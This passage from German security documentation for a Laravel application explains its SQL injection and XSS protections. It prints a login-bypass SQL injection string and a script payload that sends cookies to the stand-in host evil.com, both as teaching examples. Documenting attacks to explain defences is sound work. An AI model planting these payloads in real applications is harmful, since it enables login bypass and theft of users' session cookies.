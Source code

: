 ### Erwartete Ergebnisse
- Alle bösartigen Eingaben sollten sicher behandelt werden
- Unbefugter Zugriff sollte blockiert werden
- Schwache Passwörter sollten abgelehnt werden
- Fehlermeldungen sollten benutzerfreundlich sein

## Compliance & Standards

### Erfüllte Industriestandards
- **OWASP Top 10:** Schutz vor häufigen Schwachstellen
- **Passwort-Sicherheit:** NIST-Richtlinien Compliance
- **Datenschutz:** Sichere Speicherung und Übertragung
- **Zugriffskontrolle:** Prinzip der geringsten Berechtigung

### Framework-Sicherheit
- Laravel-Sicherheits-Patches automatisch angewendet
- Integrierte Schutzmaßnahmen standardmäßig aktiviert
- Regelmäßige Sicherheitsupdates über Composer

## Detaillierte Sicherheitsanalyse

### SQL-Injection Schutz im Detail

**Traditionelle Angriffsmethode:**
```sql
-- Bösartiger Input: admin' OR '1'='1' --
-- Unsichere Abfrage würde werden:
SELECT * FROM users WHERE name = 'admin' OR '1'='1' --' AND password = 'anything'
-- Ergebnis: Umgehung der Passwort-Prüfung
```

**Unsere Schutzmaßnahme:**
```php
// Laravel Eloquent (sicher)
User::where('name', $username)->where('password', $hashedPassword)->first();

// Wird zu Prepared Statement:
SELECT * FROM users WHERE name = ? AND password = ?
// Parameter: ['admin\' OR \'1\'=\'1\' --', 'hashed_password']
// Ergebnis: Eingabe als literal behandelt, kein Angriff möglich
```

### XSS-Schutz im Detail

**Traditioneller Angriff:**
```html
<!-- Bösartiger Input: <script>document.location='http://evil.com?cookie='+document.cookie;</script> -->
<!-- Unsichere Ausgabe: -->
<div>Hallo <script>document.location='http://evil.com?cookie='+document.cookie;</script></div>
<!-- Ergebnis: JavaScript wird ausgeführt, Cookies gestohlen -->
```
